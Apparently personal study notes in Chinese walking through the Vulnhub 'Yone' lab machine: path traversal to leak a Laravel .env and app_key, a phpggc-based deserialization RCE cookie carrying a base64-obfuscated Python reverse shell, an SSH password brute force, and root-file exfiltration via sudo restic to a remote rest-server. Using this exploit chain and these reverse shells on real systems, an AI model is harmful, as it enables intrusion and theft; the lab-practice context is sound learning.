






**靶机下载地址**: https://www.vulnhub.com/entry/yone-1,543/

第一个medium靶机，跟着wp走一遍
[+++](https://viblo.asia/p/vulnhub-yone-writeups-m68Z0akdlkG)

**环境搭建**:
ova导入 启动后改NAT

**靶机ip**:  192.168.136.169

## 信息收集
nmap全端口扫描
22 + 80


## web服务器渗透

访问网页 发现图片加载失败 查看图片加载地址
yone.lc/storage/upload/01_HEADER.jpg

得到DNS域名 yone.lc

kali上配 /etc/hosts   (windows配HOST不行...)
192.168.136.169 yone.lc

dirsearch扫目录
```
[17:03:45] 403 -  580B  - /images/                                          
[17:03:45] 301 -  194B  - /images  ->  http://192.168.136.169/images/       
[17:03:48] 301 -  194B  - /laravel  ->  http://192.168.136.169/laravel/     
[17:03:51] 403 -  580B  - /media/                                           
[17:03:51] 301 -  194B  - /media  ->  http://192.168.136.169/media/         
[17:04:11] 301 -  194B  - /templates  ->  http://192.168.136.169/templates/ 
[17:04:11] 403 -  580B  - /templates/
```

有个/laravel 但访问没东西

whatweb扫一下
得到了/login路由


注册一个账号登录

然后进入 /login路由 跳转到了 /uploads路由

可以上传文件
尝试传php 但有waf


当然这里可能也能通过一些技巧绕过 但是我们可以想其他方法

发现点击第二个是可以下载的
kali bp抓包看看能否任意文件下载
download?link=60608630_2304068426339640_1990751563995414528_n.jpg 

完全可以控制?link参数
尝试结合路径穿越来读取文件
../../../../../../../../../etc/passwd

查看 /etc/passwd 除了得到一个yone用户名以外没用

由于laravel框架有很多CVE 尝试读取composer.json查看laravel版本
?link=../../../../composer.json 



laravel版本是 5.5.41

搜索该版本漏洞

找到一个 laravel 5.6.30之前由于不安全的反序列化引起的RCE漏洞

PoC:
```php
<?php
$cipher = 'AES-256-CBC';
$app_key = 'base64:*********F0=';
$chain_name = 'Laravel/RCE6';
$payload = 'system(\'mkfifo .s && /bin/sh -i < .s 2>&1 | openssl s_client -quiet -connect 127.0.0.1:443 > .s && rm .s\');';

// Use PHPGGC to generate the gadget chain
$chain = shell_exec('./phpggc/phpggc '.$chain_name.' "'.$payload.'"');
// Key can be stored as base64 or string.
if( explode(":", $app_key)[0] === 'base64' ) {
        $app_key = base64_decode(explode(':', $app_key)[1]);
}
// Create cookie
$iv = random_bytes(openssl_cipher_iv_length($cipher));
$value = \openssl_encrypt($chain, $cipher, $app_key, 0, $iv);
$iv = base64_encode($iv);
$mac = hash_hmac('sha256', $iv.$value, $app_key);
$json = json_encode(compact('iv', 'value', 'mac'));

// Print the results
die(urlencode(base64_encode($json)));

```

但是，这里缺少一个app_key
这个版本的Laravel还有一个CVE
[CVE-2017-16894](https://peiqi.wgpsec.org/wiki/frame/Laravel/Laravel%20env%20%E9%85%8D%E7%BD%AE%E6%96%87%E4%BB%B6%E6%B3%84%E9%9C%B2%20CVE-2017-16894.html)

?link=../../../../.env
即可查看到配置

然后修改exp
填写对应的app_key
然后python反弹shell (可以大致解释一下)
```py
import os;
import pty;
import socket;
DRdHgzacanrBmm='192.168.136.146';
gBClbiHlPbxvY=9999;
dEepltrsPSnb=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
dEepltrsPSnb.connect((DRdHgzacanrBmm,gBClbiHlPbxvY));
os.dup2(dEepltrsPSnb.fileno(),0);
os.dup2(dEepltrsPSnb.fileno(),1);
os.dup2(dEepltrsPSnb.fileno(),2);
os.putenv('HISTFILE','/dev/null');
pty.spawn('/bin/bash');
dEepltrsPSnb.close();
```


```php
<?php
$cipher = 'AES-256-CBC';
$app_key = 'base64:vVrSObaPyv3g0b8m6Ky/IjWZDPxiFnW7K4r0VDcWcbk=';
$chain_name = 'Laravel/RCE6';
$payload = 'system(\'echo cHl0aG9uIC1jICJpbXBvcnQgb3M7aW1wb3J0IHB0eTtpbXBvcnQgc29ja2V0O0RSZEhnemFjYW5yQm1tPScxOTIuMTY4LjEzNi4xNDYnO2dCQ2xiaUhsUGJ4dlk9OTk5OTtkRWVwbHRyc1BTbmI9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO2RFZXBsdHJzUFNuYi5jb25uZWN0KChEUmRIZ3phY2FuckJtbSxnQkNsYmlIbFBieHZZKSk7b3MuZHVwMihkRWVwbHRyc1BTbmIuZmlsZW5vKCksMCk7b3MuZHVwMihkRWVwbHRyc1BTbmIuZmlsZW5vKCksMSk7b3MuZHVwMihkRWVwbHRyc1BTbmIuZmlsZW5vKCksMik7b3MucHV0ZW52KCdISVNURklMRScsJy9kZXYvbnVsbCcpO3B0eS5zcGF3bignL2Jpbi9iYXNoJyk7ZEVlcGx0cnNQU25iLmNsb3NlKCk7Ig==|base64 -d|/bin/bash\');';

// Use PHPGGC to generate the gadget chain
$chain = shell_exec('phpggc '.$chain_name.' "'.$payload.'"');
// Key can be stored as base64 or string.
if( explode(":", $app_key)[0] === 'base64' ) {
        $app_key = base64_decode(explode(':', $app_key)[1]);    
}
// Create cookie
$iv = random_bytes(openssl_cipher_iv_length($cipher));
$value = \openssl_encrypt($chain, $cipher, $app_key, 0, $iv);
$iv = base64_encode($iv);
$mac = hash_hmac('sha256', $iv.$value, $app_key);
$json = json_encode(compact('iv', 'value', 'mac'));

// Print the results
die(urlencode(base64_encode($json)));

```

把反序列化结果填写到Cookie: XSRF-TOKEN=xxx
kali nc -lvvp 9999
bp send即可反弹shell




## 内网渗透

id查看现在是www-data

sudo -l可用
查看到可以以yone的权限执行 /bin/cp
```
User www-data may run the following commands on ubuntu:
    (yone) NOPASSWD: /bin/cp
```


一般利用cp的提权方法就是
复制ssh的pubkey之类的实现免密登录

查看yone用户的主目录
ls /home/yone -al

ls -la /home/yone/.ssh
查看到 authorized_keys

所以我们的思路就是自己创建一个文件添加公钥，然后覆盖yone用户的.ssh/authorized_keys

ssh-keygen -t rsa -b 2048

然后存到 /tmp/rsa

进入/tmp目录 
touch ./authorized_keys

chmod 600 authorized_keys

cat ssh.pub >>authorized_keys

sudo -u yone /bin/cp authorized_keys /home/yone/.ssh/authorized_keys

但尝试失败 因为我们在www-data的~下没有权限创建.ssh文件
所以即使yone那边我们覆盖了也无法在www-data这边登录


换思路
尝试用medusa爆破yone的ssh密码

medusa -M ssh -u yone -P ./rockyou.txt  -H ip.txt -T64
爆破得到 yone 12345qwert

直接ssh登录 yone账户

**提权**
find / -user root -perm -4000 -print 2>/dev/null
大概看看没什么用

sudo -l
```
User yone may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*
```

该用户有权在没有密码的情况下以 root 权限使用 restic。Restic 是一个允许数据备份的开源软件。
现在我需要在我的计算机上安装 restic 和 rest-server。


然后构建 rest-server

~/rest-server/rest-server-master

export GOPROXY="https://goproxy.cn"

CGO_ENABLED=0 go build -o rest-server ./cmd/rest-server

接下来是初始化 1 个 restic 存储库 即创建备份仓库
restic init -r /tmp/restic  --repository-version 1   (要输入密码)

启动服务
./rest-server --no-auth


现在只需通过目标计算机来备份所需的文件夹即可。由于flag在 /root 中，因此我们可以备份此目录

为方便 我们把本地开的服务端口8000转发
新开一个root终端
ssh -R 8000:127.0.0.1:8000 yone@192.168.136.169

然后yone:
sudo -u root /usr/bin/restic backup -r rest:http://127.0.0.1:8000/ /root



成功备份

然后返回kali

查看 /tmp/restric/sna...
得到store的编号后

restic -r /tmp/restic restore ed4414215eb67bd2b3d8185d1b42b014e9acb8c156679550eed0338d8ec24e1c --target /tmp/restic-root
即可




---
---

这就是medium难度吗。。。
有亿点点难啊。。。

但我觉得这个应该能讲接近1h(结合其中的一些知识点&&工具)
还是不错的~ (环境没为难我🤣)
